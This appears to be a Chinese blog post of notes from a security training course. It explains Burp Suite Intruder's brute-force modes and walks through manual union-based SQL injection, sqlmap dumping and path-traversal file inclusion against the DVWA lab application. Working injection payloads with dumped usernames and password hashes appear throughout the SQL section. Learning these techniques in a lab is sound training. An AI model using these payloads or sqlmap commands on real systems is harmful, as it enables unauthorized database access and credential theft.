 ```yaml
---
title: 【网络安全1x02】安恒厂家网络安全培训 --- day2
date: 2020-06-30 23:55:08
tags: [网络安全, burpsuite, kali]
---
```


上午讲burpsuite的暴力破解模块，四种攻击模式。完事安装kali。

下午SQL注入，手工和sqlmap都有介绍，最后剩一点时间简单讲了点文件包含漏洞。

<!-- more -->

# burpsuite--Intruder

抓包后右键Send to Intruder即可进行暴力破解，以下面这一段参数为例,被§§包围的部分(1)、(2)为需要破解的部分：

``` bash
user=§user§&password=§password§&imageField.x=17&imageField.y=1
     (1)            (2)
---------------------------------------------------------- 
 payload1 = [user1,user2,user3]
 payload2 = [pass1,pass2,pass3]
---------------------------------------------------------- 
```

四种模式如下：

## Sniper (狙击)

按顺序将(1)(2)其中之一中使用所给的payload进行替换，另一个参数不变。

payload只能设置一个，若使用payload2的话，破解尝试顺序为：

序号 | user(1) | password(2)
- | - | -
1 | pass1 | password
2 | pass2 | password
3 | pass3 | password
4 | user | pass1
5 | user | pass2
6 | user | pass3

## Battering ram (撞击)

使用payload同时替换所有被选中的位置。

同样payload只能设置一个，使用payload2的话，破解尝试顺序为：

序号 | user(1) | password(2)
- | - | -
1 | pass1 | pass1
2 | pass2 | pass2
3 | pass3 | pass3

## Pitchfork (交叉)

按顺序分别使用payload1替换(1)，payload2替换(2)，一一对应，payload数量较少的列表用完则停止。

payload可设置(1~替换位)个，使用payload1、payload2的话，破解尝试顺序为：

序号 | user(1) | password(2)
- | - | -
1 | user1 | pass1
2 | user2 | pass2
3 | user3 | pass3

破解方式python模拟代码如下:

``` python
for i in range( min(len(payload1),len(payload2)) ):
    user = payload1[i]
    password = payload2[i]
```

## Cluster Bomb (集束炸弹)

通常意义上的穷举法。

payload可设置(1~替换位)个，使用payload1、payload2的话，破解尝试顺序为：

序号 | user(1) | password(2)
- | - | -
1 | user1 | pass1
2 | user2 | pass1
3 | user3 | pass1
4 | user1 | pass2
5 | user2 | pass2
6 | user3 | pass2
7 | user1 | pass3
8 | user2 | pass3
9 | user3 | pass3

破解方式python模拟代码如下:

``` python
for i in payload1:
    for j in payload2:
        user = payload1
        password = payload2
```

# kali

之前装过了，虚拟机安装同理：

http://got17.cn/1010/

# SQL注入

## SQL注入漏洞---low

1. 判断注入类型

``` sql
1' or '1' = '1 
```

2. 猜列数

``` sql
1' or 'a' = 'a' order by 1 #
1' or 'a' = 'a' order by 2 #
1' or 'a' = 'a' order by ... #
#二分查询(0~n)
```

3. 获取字段顺序

``` sql
1' union select 1,2 #


#回显
ID: 1' union select 1,2 #
First name: admin
Surname: admin

ID: 1' union select 1,2 #
First name: 1
Surname: 2
```

4. 获取数据库名称

``` sql
1' union select 1,database() #


#回显
ID: 1' union select 1,database() #
First name: admin
Surname: admin

ID: 1' union select 1,database() #
First name: 1
Surname: dvwa
```

5. 获取数据库中的表

``` sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #


#回显
ID: 1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
First name: admin
Surname: admin

ID: 1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
First name: 1
Surname: guestbook,users
```

6. 查询表中字段名

``` sql
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #


#回显
ID: 1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
First name: admin
Surname: admin

ID: 1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
First name: 1
Surname: user_id,first_name,last_name,user,password,avatar
```

7. 打印数据

``` sql
1' or 1 = 1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #


#回显
ID: 1' or 1 = 1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
First name: admin
Surname: admin

ID: 1' or 1 = 1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
First name: Gordon
Surname: Brown

ID: 1' or 1 = 1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
First name: Hack
Surname: Me

ID: 1' or 1 = 1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
First name: Pablo
Surname: Picasso

ID: 1' or 1 = 1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
First name: Bob
Surname: Smith

ID: 1' or 1 = 1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
First name: 1adminadmin,2GordonBrown,3HackMe,4PabloPicasso,5BobSmith
Surname: 5f4dcc3b5aa765d61d8327deb882cf99,e99a18c428cb38d5f260853678922e03,8d3533d75ae2c3966d7e0d4fcc69216b,0d107d09f5bbe40cade3de5c71e9e9b7,5f4dcc3b5aa765d61d8327deb882cf99
```

## sqlmap

``` bash
#sql -u [url] 需要cookie，这里可以使用burpsuite抓一个包保存到本地sqlmap

sqlmap -r get.txt --dbs

sqlmap -r get.txt -D dvwa --tables

sqlmap -r get.txt -D dvwa -T users --columns

sqlmap -r get.txt -D dvwa -T users -C "user,password" --dump
```

# 文件包含漏洞

``` bash
http://localhost/dvwa/vulnerabilities/fi/?page=file1.php

#修改?page=后文件目录
http://localhost/dvwa/vulnerabilities/fi/?page=../../robots.txt
```